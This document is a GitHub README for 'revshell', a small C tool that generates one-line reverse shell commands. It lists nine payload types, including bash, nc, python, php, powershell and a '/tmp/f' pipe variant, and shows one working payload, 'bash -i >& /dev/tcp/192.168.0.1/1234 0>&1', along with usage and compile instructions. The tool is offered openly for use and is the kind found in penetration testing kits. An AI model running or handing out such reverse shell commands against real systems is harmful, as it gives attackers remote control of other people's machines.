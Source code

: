 # revshell
Reverse shell generator with simple one-line commands.

## Usage

```
▶ ./revshell

    Produced by Nosferatuvjr, feel free to use it, but please credit me.
                            v0.1

Usage: revshell.c <host> <port> <number of payload>

Payload list:
1. bash
2. nc
3. rm /tmp/f
4. python
5. php
6. perl
7. ruby
8. powershell
9. zsh

```

```
▶ ./revshell 192.168.0.1 1234 1

- bash -i >& /dev/tcp/192.168.0.1/1234 0>&1
```

## Compile

Compile it yourself or use pre-compiled binary from releases section.

```
gcc revshell.c -o revshell
```
### Fale comigo em :
<p align="left">
  <a href="https://github.com/Nosferatuvjr" target="_blank"><img src="https://img.shields.io/badge/Github-Nosferatuvjr-green?style=for-the-badge&logo=github"></a>
  <a href="https://www.instagram.com/vivald0x6f" target="_blank"><img src="https://img.shields.io/badge/IG-%40vivald0x6f-red?style=for-the-badge&logo=instagram"></a>
</p>
